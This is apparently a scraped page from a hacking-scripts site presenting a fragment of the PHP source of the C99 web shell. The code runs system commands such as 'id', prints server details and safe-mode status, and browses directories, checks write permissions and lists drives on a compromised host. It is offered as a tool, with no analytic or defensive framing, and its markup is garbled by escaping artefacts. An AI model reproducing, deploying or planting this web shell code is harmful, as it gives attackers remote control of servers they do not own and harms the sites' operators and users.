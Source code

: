 &lt;b&gt;uname -a: &lt;!--?php echo wordwrap(php_uname(),90,"&lt;br ?--&gt;",1); ?&gt;&lt;/b&gt; 

&lt;b&gt;&lt;!--?php if (!$win) {echo wordwrap(myshellexec("id"),90,"&lt;br ?--&gt;",1);} else {echo get_current_user();} ?&gt;&lt;/b&gt; 

&lt;b&gt;Safe-mode: &lt;!--?php echo $hsafemode; ?--&gt;&lt;/b&gt;

&lt;!--?php &lt;br ?--&gt;$d = str_replace("\\",DIRECTORY_SEPARATOR,$d);
if (empty($d)) {$d = realpath(".");} elseif(realpath($d)) {$d = realpath($d);}
$d = str_replace("\\",DIRECTORY_SEPARATOR,$d);
if (substr($d,-1) != DIRECTORY_SEPARATOR) {$d .= DIRECTORY_SEPARATOR;}
$d = str_replace("\\\\","\\",$d);
$dispd = htmlspecialchars($d);
$pd = $e = explode(DIRECTORY_SEPARATOR,substr($d,0,-1));
$i = 0;
foreach($pd as $b)
{
 $t = "";
 $j = 0;
 foreach ($e as $r)
 {
 $t.= $r.DIRECTORY_SEPARATOR;
 if ($j == $i) {break;}
 $j++;
 }
 echo "&lt;a href="\&quot;&quot;.$surl.&quot;act=ls&d=&quot;.urlencode($t).&quot;&sort=&quot;.$sort.&quot;\&quot;"&gt;&lt;b&gt;".htmlspecialchars($b).DIRECTORY_SEPARATOR."&lt;/b&gt;&lt;/a&gt;";
 $i++;
}
echo "   ";
if (is_writable($d))
{
 $wd = TRUE;
 $wdt = "&lt;span style="color: green;"&gt;[ ok ]&lt;/span&gt;";
 echo "&lt;b&gt;&lt;span style="color: green;"&gt;".view_perms(fileperms($d))."&lt;/span&gt;&lt;/b&gt;";
}
else
{
 $wd = FALSE;
 $wdt = "&lt;span style="color: red;"&gt;[ Read-Only ]&lt;/span&gt;";
 echo "&lt;b&gt;".view_perms_color($d)."&lt;/b&gt;";
}
if (is_callable("disk_free_space"))
{
 $free = disk_free_space($d);
 $total = disk_total_space($d);
 if ($free === FALSE) {$free = 0;}
 if ($total === FALSE) {$total = 0;}
 if ($free &lt; 0) {$free = 0;}
 if ($total &lt; 0) {$total = 0;}
 $used = $total-$free;
 $free_percent = round(100/($total/$free),2);
 echo "
&lt;b&gt;Free ".view_size($free)." of ".view_size($total)." (".$free_percent."%)&lt;/b&gt;";
}
echo "
";
$letters = "";
if ($win)
{
 $v = explode("\\",$d);
 $v = $v[0];
 foreach (range("a","z") as $letter)
 {

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png